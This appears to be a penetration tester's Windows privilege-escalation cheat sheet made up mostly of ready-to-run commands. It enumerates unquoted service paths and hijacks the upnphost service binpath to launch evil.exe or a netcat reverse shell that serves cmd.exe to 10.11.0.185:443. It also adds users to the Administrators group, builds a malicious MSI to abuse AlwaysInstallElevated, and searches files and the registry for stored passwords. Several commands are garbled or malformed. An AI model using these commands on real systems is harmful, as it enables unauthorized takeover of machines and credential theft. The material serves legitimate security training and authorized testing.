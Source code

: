 ````
still getting errors try this-
```
sc config SSDPSRV start= auto
net start SSDPSRV
net start upnphost
```


#### Unquoted Service Paths - race condition

```
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" 
|findstr /i /v "C:\Windows\\" |findstr /i /v """
icacls c:\program\SLMail\
msfvenom -f exe -o pop3.exe
```

#### Further service enumeration
```
net start
tasklist /SVC
sc query state= all
sc qc upnphost
Get-WmiObject win32_service | select Name, DisplayName, State, PathName | Out-File
dir C:\windows\system32 /Q | find "BOB" (find sys-files owned by BOB)
```

# Service Modification Summary
```
sc qc upnphost
sc stop upnphost
sc config upnphost obj= ".\LocalSystem" password= ""
```
#### Binary Execution method
```sc config upnphost binpath= “C:\evil.exe”```
#### Netcat method
```sc config upnphost binpath= “\“C:\nc.exe\” \”-nv 10.11.0.185 443 -e C:\windows\system32\cmd.exe\””```

#### User Add method
```sc config upnphost binpath= “net user lecon lecon /add”```
```sc config upnphost binpath= “net localgroup Administrators lecon /add”```
```sc config upnphost binpath= “net localgroup “/Remote Desktop Users/” lecon /add”```


#### Always Install Elevated
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
Msfvenom -p windows/useradd user=lemon pass=pass -f evil.msi > evil.msi
msiexec /quiet /qn /I c:evil.msi
```
# Credentials and permissions

#### Credential search
```
findstr /si password *.txt/xml/ini
dir /s *pass* == *cred* == *vnc* == *.config*
findstr /spin "password" *.*
reg query HKLM /f password /t REG_SZ /s
reg query HKLM /f password /t REG_SZ /s
```

- Look for unattend(ed) and sysprep xml/ini files
```
C:\Windows\Panther\
C:\Windows\Panther\Unattend\
````